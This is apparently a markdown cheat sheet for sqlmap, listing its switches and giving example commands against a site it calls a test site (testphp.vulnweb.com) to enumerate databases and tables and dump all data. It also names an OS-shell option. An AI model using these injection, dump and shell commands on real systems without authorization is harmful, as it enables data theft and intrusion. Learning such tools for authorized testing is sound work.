




# sqlmap


- [Basic Commands](#Basic)
- [Key Commands](#Key)

<h2 id="Basic">Basic Commands</h2>

 - Targeting:
   
|Switches | Details |
|---|---|
| -u    | Target URL to scan |
| -g    | Scan via Google search |


- Detection and Techniques:
  
|Switches | Details |
|---|---|
|--level=LEVEL | Level of tests to perform (1-5, default 1) |
| --risk=RISK | Risk of tests to perform (1-3, default 1) |
| --technique=TECH | SQL injection techniques to use (default "BEUSTQ") |

- Request Settings:
  
|Switches | Details |
|---|---|
| -p    | Specify parameter(s) to test |
| -r    | Load HTTP request from a file |
| --dbs | Extract database names |
| --data=DATA | POST data to send |
| --random-agent | Use a random HTTP User-Agent header |
| --proxy=PROXY | Use a proxy server |

<h2 id="Key">Key Commands</h2>

|Switches | Details |
|---|---|
| --dbs | List databases |
| --columns | List columns |
| --tables | List tables |
| --dump | Dump table data |
| --os-shell | Gain OS shell access |
| -D    | Select a database |


Example:

- Note : It is a test site.

1.List of Databases:
```bash
sqlmap -u http://testphp.vulnweb.com/product.php?pic=1 --dbs
```


 
1. List tables in the acuart database:
```bash
   sqlmap -u http://testphp.vulnweb.com/product.php?pic=1 -D acuart --tables  
```


2. Dump all data from the acuart database:
```bash
   sqlmap -u http://testphp.vulnweb.com/product.php?pic=1 -D acuart --dump-all  
```



